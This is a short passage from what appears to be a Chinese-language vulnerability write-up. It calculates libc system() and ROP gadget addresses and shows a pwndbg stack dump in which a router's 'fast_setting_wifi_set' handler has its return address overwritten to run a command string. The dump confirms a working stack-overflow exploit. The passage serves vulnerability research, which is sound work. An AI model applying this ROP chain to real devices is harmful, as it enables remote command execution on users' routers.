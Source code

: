 0x40800268返回地址 对应  
  
system基址 = libc_base + 0x5A270 = 0x3fd9c000 + 0x5A270 = 0x3fdf6270  
  
0x4080026c 为后续执行地址，对应  
  
mov_r0_ret_r3 = libc_base + 0x40cb8 = 0x3fd9c000 + 0x40cb8 = 0x3FDDCCB8  
  
0x40800270 栈帧基址开始执行cmd指令，至此，证明思路完全没问题  
```
80:0200│ r0   0x408001e8 ◂— 0x61616161 ('aaaa')
... ↓         23 skipped
98:0260│      0x40800248 —▸ 0x3fe0015f ◂— cdpvs p14, #6, c6, c15, c1, #3 /* 'anonymous' */
99:0264│      0x4080024c ◂— 0x62626262 ('bbbb')
... ↓         5 skipped
9f:027c│ r11  0x40800264 —▸ 0x3fdb4298 ◂— pop {r3, pc}
a0:0280│      0x40800268 —▸ 0x3fdf6270 ◂— ldr r3, [pc, #0x144]
a1:0284│      0x4080026c —▸ 0x3fddccb8 ◂— mov r0, sp /* '\r' */
a2:0288│      0x40800270 ◂— 'echo success111'
a3:028c│      0x40800274 ◂— ' success111'
a4:0290│      0x40800278 ◂— 'cess111'
a5:0294│      0x4080027c ◂— 0x313131 /* '111' */
a6:0298│ r3   0x40800280 ◂— 'fast_setting_wifi_set'
a7:029c│      0x40800284 ◂— '_setting_wifi_set'
a8:02a0│      0x40800288 ◂— 'ting_wifi_set'
a9:02a4│      0x4080028c ◂— '_wifi_set'
aa:02a8│      0x40800290 ◂— 'i_set'
ab:02ac│      0x40800294 ◂— 0x74 /* 't' */
ac:02b0│      0x40800298 ◂— 0x0... ↓         55 skipped
e4:0390│      0x40800378 —▸ 0x66ee0 ◂— push {r4, r5, fp, lr}
e5:0394│      0x4080037c —▸ 0x119870 —▸ 0x11aaa0 ◂— 0
e6:0398│      0x40800380 ◂— 0x0
e7:039c│      0x40800384 —▸ 0x40800280 ◂— 'fast_setting_wifi_set'
```  
  
  
